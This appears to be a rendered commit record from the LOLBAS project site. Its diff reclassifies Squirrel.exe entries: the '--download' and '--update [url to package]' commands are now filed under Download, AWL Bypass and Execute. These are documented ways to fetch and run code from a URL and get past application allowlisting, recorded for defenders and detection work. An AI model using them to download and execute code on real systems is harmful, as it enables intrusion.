

Before and after one commit to LOLBAS-Project/LOLBAS-Project.github.io, a Jekyll site: the page built from _lolbas/OtherMSBinaries/Squirrel.md, in a window 1280 px wide and 1400 px high, scrolled down 293 px. Shown: the top 1330 px of the window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Adjusted Update and Squirrel

```diff
--- a/_lolbas/OtherMSBinaries/Squirrel.md
+++ b/_lolbas/OtherMSBinaries/Squirrel.md
@@ -6,24 +6,24 @@
 Commands:
   - Command: squirrel.exe --download [url to package]
     Description: The above binary will go to url and look for RELEASES file and download the nuget package.
-    Usecase: Download and execute binary
-    Category: Execute
+    Usecase: Download binary
+    Category: Download
     Privileges: User
     MitreID: T1218
     MitreLink: https://attack.mitre.org/techniques/T1218/
     OperatingSystem: Windows 7 and up with Microsoft Teams installed
-  - Command: squirrel.exe --download [url to package]
-    Description: The above binary will go to url and look for RELEASES file and download the nuget package.
+  - Command: squirrel.exe --update [url to package]
+    Description: The above binary will go to url and look for RELEASES file, download and install the nuget package.
     Usecase: Download and execute binary
     Category: AWL Bypass
     Privileges: User
     MitreID: T1218
     MitreLink: https://attack.mitre.org/techniques/T1218/
-    OperatingSystem: Windows 10
-  - Command: squirrel.exe --download [url to package]
-    Description: The above binary will go to url and look for RELEASES file and download the nuget package.
+    OperatingSystem: Windows 7 and up with Microsoft Teams installed
+  - Command: squirrel.exe --update [url to package]
+    Description: The above binary will go to url and look for RELEASES file, download and install the nuget package.
     Usecase: Download and execute binary
-    Category: Download
+    Category: Execute
     Privileges: User
     MitreID: T1218
     MitreLink: https://attack.mitre.org/techniques/T1218/
```
Also changed, not shown: _lolbas/OtherMSBinaries/Update.md (+7 -7 lines).
